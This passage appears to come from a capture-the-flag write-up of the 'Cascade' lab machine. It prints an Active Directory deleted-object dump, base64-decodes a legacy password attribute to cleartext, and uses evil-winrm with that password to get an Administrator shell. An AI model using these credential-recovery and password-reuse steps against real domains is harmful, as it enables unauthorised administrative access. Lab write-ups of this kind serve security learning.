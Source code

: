 ```
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```
Indeed it did throw us the password:
```
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
which when I base64 decode it gives me the cleartext password:
baCT3r1aN00dles
```
I now use again evil-winrm but this time as user Administrator(Because as seen in the file `Meeting_Notes_June_2018.html` the TempAdmin has the same password as the admin). 
```
kali@kali:~/Desktop/Boxes/Cascade/smbshare/Data/vncpasswd.py$ evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
I can obtain root.txt now.
